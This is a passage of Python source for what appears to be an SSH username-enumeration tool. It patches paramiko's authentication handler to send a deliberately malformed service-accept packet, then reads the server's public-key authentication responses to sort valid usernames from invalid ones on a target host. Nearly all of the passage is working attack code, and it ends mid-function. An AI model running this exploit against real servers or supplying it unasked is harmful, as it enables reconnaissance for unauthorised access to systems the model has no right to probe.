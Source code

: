 ```python
    auth_handler = paramiko.auth_handler.AuthHandler
    old_msg_service_accept = auth_handler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT]

    def patched_msg_service_accept(*args, **kwargs):
        """ Patches paramiko.message.Message.add_boolean to produce a malformed packet. """
        old_add_boolean, paramiko.message.Message.add_boolean = paramiko.message.Message.add_boolean, patched_add_boolean
        retval = old_msg_service_accept(*args, **kwargs)
        paramiko.message.Message.add_boolean = old_add_boolean
        return retval

    def patched_userauth_failure(*args, **kwargs):
        """ Called during authentication when a username is not found. """
        raise InvalidUsername(*args, **kwargs)

    auth_handler._client_handler_table.update({
        paramiko.common.MSG_SERVICE_ACCEPT: patched_msg_service_accept,
        paramiko.common.MSG_USERAUTH_FAILURE: patched_userauth_failure
    })


def create_socket(hostname: str, port: int) -> Union[socket.socket, None]:
    """ Small helper to stay DRY.
    Returns:
        socket.socket or None
    """
    # spoiler alert, I don't care about the -6 flag, it's really
    # just to advertise in the help that the program can handle ipv6
    try:
        return socket.create_connection((hostname, port))
    except socket.error as e:
        print(f'socket error: {e}', file=sys.stdout)


def connect(username: str, hostname: str, port: int, verbose: bool = False, **kwargs) -> None:
    """ Connect and attempt keybased auth, result interpreted to determine valid username.
    Args:
        username:   username to check against the ssh service
        hostname:   hostname/IP of target
        port:       port where ssh is listening
        key:        key used for auth
        verbose:    bool value; determines whether to print 'not found' lines or not
    Returns:
        None
    """
    sock = create_socket(hostname, port)
    if not sock:
        return

    transport = paramiko.transport.Transport(sock)

    try:
        transport.start_client()
    except paramiko.ssh_exception.SSHException:
        return print(Color.string(f'[!] SSH negotiation failed for user {username}.', color='red'))

    try:
        transport.auth_publickey(username, paramiko.RSAKey.generate(1024))
    except paramiko.ssh_exception.AuthenticationException:
        print(f"[+] {Color.string(username, color='yellow')} found!")
    except InvalidUsername:
        if not verbose:
            return
```